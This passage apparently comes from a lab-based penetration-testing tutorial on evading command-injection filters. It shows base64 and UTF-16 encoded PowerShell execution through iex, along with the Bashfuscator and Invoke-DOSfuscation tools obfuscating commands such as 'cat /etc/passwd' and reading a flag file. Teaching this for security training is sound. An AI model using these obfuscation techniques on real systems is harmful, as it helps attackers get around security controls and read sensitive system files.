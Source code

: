 Even if some commands were filtered, like bash or base64, we could bypass that filter with the techniques we discussed in the previous section (e.g., character insertion), or use other alternatives like sh for command execution and openssl for b64 decoding, or xxd for hex decoding.

We use the same technique with Windows as well. First, we need to base64 encode our string, as follows:
```bash
PS > [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```

We may also achieve the same thing on Linux, but we would have to convert the string from utf-8 to utf-16 before we base64 it, as follows:
```bash
$ echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```

Finally, we can decode the b64 string and execute it with a PowerShell sub-shell (iex "$()"), as follows:
```bash
PS > iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```

# Evasion Tools
If we are dealing with advanced security tools, we may not be able to use basic, manual obfuscation techniques. In such cases, it may be best to resort to automated obfuscation tools. This section will discuss a couple of examples of these types of tools, one for Linux and another for Windows.

## Linux (Bashfuscator)
A handy tool we can utilize for obfuscating bash commands is Bashfuscator. We can clone the repository from GitHub and then install its requirements, as follows:
```bash
$ git clone https://github.com/Bashfuscator/Bashfuscator
$ cd Bashfuscator
$ pip3 install setuptools==65
$ python3 setup.py install --user

$ ./bashfuscator -c 'cat /etc/passwd'
```

However, running the tool this way will randomly pick an obfuscation technique, which can output a command length ranging from a few hundred characters to over a million characters! So, we can use some of the flags from the help menu to produce a shorter and simpler obfuscated command, as follows:
```bash
$ ./bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1
```

## Windows (DOSfuscation
There is also a very similar tool that we can use for Windows called [DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation). Unlike Bashfuscator, this is an interactive tool, as we run it once and interact with it to get the desired obfuscated command. We can once again clone the tool from GitHub and then invoke it through PowerShell, as follows:
```powershell
PS > git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
PS > cd Invoke-DOSfuscation
PS > Import-Module .\Invoke-DOSfuscation.psd1
PS > Invoke-DOSfuscation
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation\Encoding> encoding
Invoke-DOSfuscation\Encoding> 1
```




